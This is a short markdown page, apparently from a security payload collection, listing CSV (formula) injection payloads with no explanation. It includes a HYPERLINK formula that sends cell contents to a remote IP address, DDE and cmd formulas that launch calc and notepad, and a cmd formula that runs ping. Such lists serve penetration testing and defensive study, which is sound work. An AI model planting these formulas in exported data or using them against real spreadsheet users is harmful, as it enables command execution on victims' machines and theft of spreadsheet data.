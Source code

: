 ```yaml
---
description: A collection of CSV Injection templates and payloads
---
```


# CSV Injection

#### Payloads:

```text
=HYPERLINK(“<http://172.0.0.1:8000?leads=>"&A2&B2, “More here”)
=cmd|’ /C calc’!A0
=cmd|’ /C notepad.exe’!A0
=DDE(server; file; item; mode)

=cmd|'/C ping -t 8.8.8.8 -l 25152'!'A1'
```

